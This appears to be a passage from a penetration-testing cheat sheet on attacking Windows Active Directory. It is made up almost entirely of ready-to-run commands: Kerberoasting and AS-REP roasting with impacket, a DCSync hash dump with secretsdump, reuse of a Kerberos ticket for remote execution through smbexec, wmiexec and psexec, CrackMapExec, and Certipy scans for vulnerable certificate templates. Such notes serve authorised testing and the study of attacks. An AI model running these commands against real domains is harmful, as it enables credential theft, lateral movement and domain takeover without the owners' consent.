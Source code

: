 ```powershell
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)
Invoke-Command -ComputerName Server01 -Credential $credential -ScriptBlock { COMMAND }
```
## Kerberos
### Kerberoast
GetUserSPNs and get hashes :
```bash
impacket-GetUserSPNs -request -dc-ip IP_ADDRESS DOMAIN/USERNAME -outputfile hashes.kerberoast
```
If you get hashes, try to crack it and then use DCSync exploit :
```bash
impacket-secretsdump -just-dc-ntlm DOMAIN/USERNAME:PASSWORD@DC_IP
```
### AS-REP Roasting
Look for users without Kerberos pre-authentication required attribute (using credential, low privilege) :
```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD
```
Get a TGT for a user, whithout his password, if you know that this account have Kerberos pre-auth disabled :
```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME -no-pass
```
### Tips to authenticate with Kerberos while pentesting
If you have a valid username/password, you can ask the KDC for a TGT. It is truly important to use the real domain name and not an alias :
```bash
impacket-getTGT 'domain.local/username:password' -dc-ip DC_IP
```
This command will create a .ccache file, which is your TGT allowing you to authenticate against the KDC. Export it on the KRB5CCNAME variable to use it :
```bash
export KRB5CCNAME=/absolute/path/to/user.ccname
```
Then you can use, for example the impacket collection, with -k and -no-pass options to use kerberos authentication :
```bash
impacket-smbexec domain.local/username@FQDN -k -no-pass
impacket-wmiexec domain.local/username@FQDN -k -no-pass
impacket-psexec domain.local/username@FQDN -k -no-pass
```
With CrackMapExec, use the -k and --use-kcache options to use a kerberos authentication :
```bash
crackmapexec smb IP_ADDRESS/MASK -u 'USERNAME' -k --use-kcache
```

## Active Directory Certificate Services (ADCS)
A lot of attacks exists. First thing to do is to check for vulnerable templates.
### Check for vulnerable templates
Using python tool on your machine like Certipy or on a domain-joined machine using Certify.exe. Play the find command to get a global view with Bloodhound.
```bash
certipy find -bloodhound -u USER@DOMAIN -p 'PASSWORD' -dc-ip DC_IP
```
Then, use Olivier Lyak's bloohound, which includes PKIs stuff (https://github.com/ly4k/BloodHound).
You can also try to find directly vulnerable templates with certipy :
```bash
certipy find -vulnerable -u USER@DOMAIN -p 'PASSWORD' -dc-ip DC_IP
```
If it doesn't work, you probably have to do it on a domain-joined machine, using Windows.